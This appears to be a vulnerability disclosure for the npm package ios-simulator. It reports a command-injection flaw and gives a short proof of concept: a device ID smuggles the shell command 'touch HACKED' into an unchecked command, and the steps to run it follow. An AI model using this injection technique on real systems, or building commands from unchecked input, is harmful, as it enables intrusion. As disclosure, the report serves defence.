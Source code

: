 # Overview

The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check.

## Proof of Concept (Credit: [Mik317](https://huntr.dev/app/users/Mik317))

1. Create the following PoC file:

```js
// poc.js

var ios = require("ios-simulator");

ios.prototype.setDeviceId('test"; touch HACKED; #');

ios.prototype.install();
```

2. Check there aren't files called `HACKED`

3. Execute the following commands in another terminal:

```bash

npm i ios-simulator # Install affected module

node poc.js #  Run the PoC

```

4. Recheck the files: now `HACKED` has been created

## References:

- [GitHub Issue](https://github.com/macacajs/ios-simulator/issues/15)
- [Issue Permalink](https://github.com/macacajs/ios-simulator/blob/master/lib/ios-simulator.js#L50)
